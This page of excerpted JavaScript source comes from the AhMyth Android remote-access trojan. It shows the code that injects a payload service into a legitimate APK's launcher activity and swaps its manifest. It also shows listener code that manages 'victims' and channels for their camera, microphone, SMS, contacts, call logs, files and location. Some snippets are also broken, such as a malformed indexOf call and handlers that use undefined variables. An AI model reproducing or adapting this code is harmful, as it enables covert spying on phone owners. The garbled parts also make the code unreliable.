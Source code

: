 // Launcher Extraction for "<application" attribute | AppCtrl.js = Line 5658 --> 5707 |
// ================================================ | =============================== |
```javascript
function GetLauncherPath(manifest, smaliPath) {


    var regex = /<application/gi,
        result, indices = [];
    while ((result = regex.exec(manifest))) {
        indices.push(result.index);
    }

    var indexOfLauncher = manifest.indexOf(
        'android.intent.action.MAIN'
        'android.intent.category.DEFAULT',
        +
        'android.intent.action.MAIN'
        'android.intent.category.INFO',
        +
        'android.intent.action.MAIN'
        'android.intent.category.LAUNCHER'
        );
    var indexOfApplication = -1;
    
    if (indexOfLauncher != -1) {
        manifest = manifest.substring(0, indexOfLauncher);
        for (var i = indices.length - 1; i >= 0; i--) {
            if (indices[i] < indexOfLauncher) {
                indexOfApplication = indices[i];
                manifest = manifest.substring(indexOfApplication, manifest.length);
                break;
            }
        }


        if (indexOfApplication != -1) {

            if (manifest.indexOf('android:targetActivity="') != -1) {
                manifest = manifest.substring(manifest.indexOf('android:targetActivity="') + 24);
                manifest = manifest.substring(1, manifest.indexOf('"'))
                manifest = path.join(smaliPath, manifest) + '.smali';
                var files = fs.walkSync(smaliPath);
                for (var i = 0; i < files.length; i++) {
                    if (files[i].substring(files[i].lastIndexOf("/") + 1) == manifest)
                        return files[i];
                }

            } else {
                manifest = manifest.substring(manifest.indexOf('android:name="') + 14);
                manifest = manifest.substring(0, manifest.indexOf('"'))
                manifest = manifest.replace(/\./g, "/");
                manifest = path.join(smaliPath, manifest) + ".smali"
                return manifest;
            }

        }
    }
    return -1;



  }
```
  

// OrgAppKey2 | Constants.js = Line 32 |
// ========== | ====================== |
exports.orgAppKey2 = ';->onCreate()V';



// OrgAppKey2 specification | AppCtrl.js = Line 5553 --> 5560 |
// ======================== | =============================== |
var key = CONSTANTS.orgAppKey2;
$appCtrl.Log("Modifiying launcher activity...");
var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
fs.writeFile(launcherPath, output, 'utf8', (error) => {
    if (error) {
        $appCtrl.Log('Modifying launcher activity Failed', logStatus.FAIL);
        return;
    }
    
// manifest replacement function | AppCtrl.js = Line 2849 --> 2860 |
// ============================= | =============================== |
    
                            fs.copyFile(path.join(CONSTANTS.vaultFolderPath, "AndroidManifest.xml"), path.join(CONSTANTS.ahmythApkFolderPath, "AndroidManifest.xml"), (err) => {
                              if (err) throw err;
                            
                              $appCtrl.Log('Apk built successfully', CONSTANTS.logStatus.SUCCESS);
                              $appCtrl.Log("The apk has been built on " + path.join(outputPath, CONSTANTS.signedApkName), CONSTANTS.logStatus.SUCCESS);                        

                            });
                          });
                    });
            });

    }
    
// Stop function for the AhMyth Listener | AppCtrl.js = Line 133 --> 165 |
// ===================================== | ============================= |
        // when user clicks Listen button
    $appCtrl.Stop = (port) => {
      if (!port) {
          port = CONSTANTS.defaultPort;
      }

      // notify the main proccess about the port and let him stop listening
      ipcRenderer.send("SocketIO:Stop", port);
      $appCtrl.Log("Stopped Listening on port => " + port, CONSTANTS.logStatus.SUCCESS);
  }


  // fired if listening brings error
  ipcRenderer.on("SocketIO:Stop", (event, error) => {
      $appCtrl.Log(error, CONSTANTS.logStatus.FAIL);
          $appCtrl.isListen = false;
          $appCtrl.$apply()
  });


  // fired when main proccess (main.js) send any new notification about disconnected victim
  ipcRenderer.on('SocketIO:RemoveVictim', (event, index) => {
      $appCtrl.Log("Server disconnected " + viclist[index].ip);
      // delete him from list
      delete viclist[index];
      $appCtrl.$apply();
  });


  // notify the main proccess (main.js) to close the lab
  $appCtrl.closeLab = (index) => {
      ipcRenderer.send('closeLabWindow', 'lab.html', index);
    }
  
  
// Stop function for the AhMyth Listener | Main.js = Line 262 --> Line 333 |
// ===================================== | =============================== |
 
  // fired when stopped listening
  // It will be fired when AppCtrl emit this event
  ipcMain.on('SocketIO:Stop', function (event, port) {

  // stop listening
  IO = IO.close(port);
  IO.sockets.pingInterval = 10000;
  IO.sockets.on('connection', function (socket) {

    socket.on('disconnect', function () {
      // Decrease the socket count on a disconnect
      victimsList.rmVictim(index);

      //notify renderer proccess (AppCtrl) about the disconnected Victim
      win.webContents.send('SocketIO:RemoveVictim', index);

      if (windows[index]) {
        //notify renderer proccess (LabCtrl) if opened about the disconnected Victim
        BrowserWindow.fromId(windows[index]).webContents.send("SocketIO:ServerDisconnected");
        //delete the window from windowsList
        delete windows[index]
      }
    });

  });

});


//handle the Uncaught Exceptions




// Fired when Victim's Lab is closed
ipcMain.on('closeLabWindow', function (e, page, index) {
  //------------------------Lab SCREEN INIT------------------------------------
  // create the Lab window
  let child = new BrowserWindow({
    icon: __dirname + '/app/assets/img/icon.png',
    parent: win,
    width: 700,
    height: 750,
    show: false,
    darkTheme: true,
    transparent: true,
    resizable: false,
    frame: false,
    webPreferences: {
      nodeIntegration: true,
      enableRemoteModule: true
    }
  })

  child.once('ready-to-show', () => {
    child.show();
  });

  child.on('closed', () => {
    delete windows[index];
    //on lab window closed remove all socket listners
    if (victimsList.getVictim(index).socket) {
      victimsList.getVictim(index).socket.removeAllListeners("x0000ca"); // camera
      victimsList.getVictim(index).socket.removeAllListeners("x0000fm"); // file manager
      victimsList.getVictim(index).socket.removeAllListeners("x0000sm"); // sms
      victimsList.getVictim(index).socket.removeAllListeners("x0000cl"); // call logs
      victimsList.getVictim(index).socket.removeAllListeners("x0000cn"); // contacts
      victimsList.getVictim(index).socket.removeAllListeners("x0000mc"); // mic
      victimsList.getVictim(index).socket.removeAllListeners("x0000lm"); // location
    }
  })
});
